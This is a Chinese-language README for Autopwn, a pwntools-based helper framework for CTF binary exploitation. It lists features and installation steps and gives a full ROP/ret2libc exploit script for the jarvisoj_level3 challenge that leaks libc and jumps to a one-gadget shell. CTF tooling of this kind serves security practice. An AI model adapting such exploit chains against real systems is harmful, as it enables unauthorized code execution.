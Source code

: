 # Autopwn

## 简介

Autopwn项目，致力于提供如下特性：

- 简化exp
- 对pwntools常用功能的更好的包装

目前已经实现的功能：
- 对自定义函数的包装（不完善）
- 使用命令行参数启动脚本，从而实现不同的功能（local run，local debug，remote run）
- 允许用户自定义debug时的gdb脚本，添加了对PIE程序仅使用偏移下断点的支持
- 允许用户自行提供函数封装，并将其添加为tubes的方法，已内置数个别名
- 允许用户更改elf文件的库查找路径与解释器路径（使用patchelf实现）
- 允许用户为当前的elf生成一个可修改的lief Binary对象
- 添加Ubuntu常用库的数据库（ld，libc，libdl）

## 效果图

- 自动生成配置文件
![](https://github.com/CTSinon/Autopwn/blob/master/screenshots/autoconf.gif)

- 搭配emacs的YASnippet插件一键生成exp框架
![](https://github.com/CTSinon/Autopwn/blob/master/screenshots/genexp.gif)

- 一键patchelf
![](https://github.com/CTSinon/Autopwn/blob/master/screenshots/autopatch.gif)

- 自带常用tube方法别名（如rl，sl，ru），一键运行（废话
![](https://github.com/CTSinon/Autopwn/blob/master/screenshots/run.gif)

- 无视PIE，自定义断点，一键调试
![](https://github.com/CTSinon/Autopwn/blob/master/screenshots/breakpoint.gif)

- 一键远程连接
![](https://github.com/CTSinon/Autopwn/blob/master/screenshots/remote.gif)

## 安装

### 依赖
- python 2.7 (environment)
- pwntools (module)
- pandas (module)
- lief (module)
- patchelf (application)

### 安装方法

1. `git clone https://github.com/CTSinon/Autopwn.git`
   
2. 将这一行添加到.bashrc中：
`alias gen='python path/to/gen.py`

3. 将autopwn文件夹添加到python的path中

4. 将LIBC文件夹中的ubuntu库放到你喜欢的位置

5. enjoy it!

### 关于lief模块的安装

lief官方已经在最新版的lief中抛弃了对python 2.7的支持，因此我们需要一个旧版本，在这里你可以下载到旧版本的egg包：

https://github.com/lief-project/LIEF/releases/download/0.9.0/lief-0.9.0-py2.7-linux.egg

然后使用easy_install来安装即可：

`easy_install lief-0.9.0-py2.7-linux.egg`

## 其他

### 栗子🌰

题目链接：https://buuoj.cn/challenges#jarvisoj_level3

```python
from pwn import *
from autopwn.core import pwn
from sys import argv

def leak(self, a):
    pass


# 该函数将会被动态添加到内置的一个类中
# 你可以自由的使用类属性（如当前elf对象）
# 代价仅仅是在参数中添加一个self
def exp(self, a):
    read_got = self.elf.got['read']
    # 这里elf对象是类属性
    write_got = self.elf.got['write']
    write_plt = self.elf.plt['write']
    read_plt = self.elf.plt['read']
    esp_c = 0x080482ee
    read_offset = self.lib[0].symbols['read']
    # lib同样是类属性，是一个存放下面指定的lib对应的elf对象的数组
    one_offset = 0x3a80c

    a.rl()
    # 这是recvline的别名，你可以在less_tube.py中定义你自己的别名
    payload = 'a' * 0x88
    payload += 'a' * 4
    payload += p32(write_plt) + p32(esp_c)
    payload += p32(1) + p32(read_got) + p32(4)
    payload += p32(read_plt) + p32(write_plt)
    payload += p32(0) + p32(write_got) + p32(4)

    a.sl(payload)

    read_addr = unpack(a.recvn(4), 'all')
    a.lg("Got read addr: ", read_addr)
    one_addr = read_addr + one_offset - read_offset

    a.send(p32(one_addr))
    
# 该函数用于getshell之后获取flag
# 一般的题目这样就好
def get_flag(self, a):
    a.interactive()
    return

pwn.ctf(argv, exp, get_flag,
        bp=0x080484a6,
        # 指定断点，开启PIE时使用偏移就好
        inter='../libc6-i386_2.23-0ubuntu10_amd64/ld-2.23.so',
        # 如果你要patch libc的话，一定要指定相应的ld
        needed=['../libc6-i386_2.23-0ubuntu10_amd64/libc-2.23.so'])
        # needed是一个数组，你可以使用它来替换dynamic段中所用needed项（包括大部分动态链接库）
```

### 目录结构

```
.
├── \
├── autopwn
│   ├── awd                       # awd框架，未实现
│   │   ├── attacker.py           # =-=
│   │   ├── attack.py             # =-=
│   │   ├── get_ip.py             # 获取目标列表
│   │   └── __init__.py
│   ├── core
│   │   ├── classes.py            # 存放核心类
│   │   ├── __init__.py
│   │   └── pwn.py                # 主文件
│   ├── ctf
│   │   ├── attack.py             # 主文件
│   │   ├── __init__.py
│   │   ├── less_tube.py          # 为tube类添加更多特性
│   │   └── stack.py              # 栈布局可视化（已废弃）
│   └── __init__.py
├── autopwn.conf                  # 配置文件模版
├── gen.py                        # 生成配置文件
├── README.md
└── test
    ├── flag
    └── payload.py
```

### 碎碎念
- 感谢cnitlrt师傅的支持
- 作者没有专业研究过python这门语言，所以脚本写得一眼难尽。设计模式之类的更是没怎么研究过。希望各路大神能提出更好的建议，添加更方便的功能，大家一起进步呀 (๑•̀ㅂ•́)و✧ 

